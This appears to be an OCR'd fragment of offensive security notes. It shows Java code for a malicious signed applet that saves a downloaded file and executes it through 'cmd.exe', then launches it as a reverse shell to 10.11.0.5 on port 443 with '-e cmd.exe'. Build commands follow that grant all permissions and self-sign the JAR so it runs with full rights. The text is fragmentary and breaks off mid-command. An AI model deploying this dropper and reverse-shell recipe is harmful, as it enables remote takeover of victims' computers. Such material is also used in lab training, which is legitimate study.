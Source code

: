 >   File outputFile = new File(expath);

>   OutputStream out = new BufferedOutputStream(new

>   FileOutputStream(outputFile));

>   byte[] buffer = new byte[2048];

>   for (;;) {

>   int nBytes = bufIn.read(buffer);

>   if (nBytes \<= 0) break;

>   out.write(buffer, 0, nBytes);

>   }

>   out.flush();

>   out.close();

>   in.close();

>   f = Runtime.getRuntime().exec("cmd.exe /c " + expath);

>   }

} catch(IOException e) {

e.printStackTrace();

}

/\* ended here and commented out below for bypass \*/

catch (Exception exception)

{

exception.printStackTrace();

}

}

}

f = Runtime.getRuntime().exec("cmd.exe /c " + expath + " 10.11.0.5 443 -e
cmd.exe");

编译:

javac -source 1.7 -target 1.7 Java.java

echo “Permissions: all-permissions” \> /root/manifest.txt

jar cvf Java.jar Java.class

keytool -genkey -alias signapplet -keystore mykeystore -keypass

mykeypass -storepass password123

jarsigner -keystore mykeystore -storepass password123 -keypass mykeypass
